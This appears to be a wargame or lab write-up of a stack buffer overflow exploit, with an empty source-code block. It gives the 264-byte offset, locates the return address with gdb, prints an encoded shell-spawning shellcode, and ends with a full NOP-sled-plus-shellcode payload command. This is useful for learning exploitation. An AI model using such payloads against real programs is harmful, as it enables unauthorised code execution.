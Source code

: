 ```c
```

<img src="img/Pasted image 20240720215157.png" alt="Example Image" width="1080"/>

BufferOverFlow happen at `264` size , this same as before forms a shellcode

```
# NOP + SHELLCODE + POINTER
```

Analyze memory and find dummy pointer `(gdb) x/600wx $esp` and build the exploit 

Shellcode by Jonathan Salwan (57 bytes)
<div style="width: 100%; overflow-x: auto; ">
    <div style="display: inline-block;  height: 50px; margin: 10px; background-color:#242729; padding:15px" > \xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81
</div>
</div>

```
\x90 * (264 - 57) + shellcode + dummy pointer 0xffffd660
```

<img src="img/Pasted image 20240719201528.png" alt="Example Image" width="1080"/>

https://wordcounter.net/ use this site to form nop with exact count

```
r `echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81\x60\xd6\xff\xff"`
```
